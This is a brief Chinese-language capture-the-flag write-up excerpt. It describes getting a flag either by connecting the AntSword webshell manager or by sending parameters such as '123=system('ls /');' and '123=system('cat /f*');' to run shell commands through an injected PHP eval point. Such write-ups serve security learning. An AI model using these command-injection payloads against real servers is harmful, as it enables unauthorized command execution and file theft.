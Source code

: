 访问后有两种方法获得flag，第一种是蚁剑链接，对于不知道flag位置的，比较方便，

第二种是直接构架命令

```
123=system('ls /');
```

![image-20240126103731156](image/image-20240126103731156.png)

得到flag位置，构建命令查看flag

```
123=system('cat /f*');
```
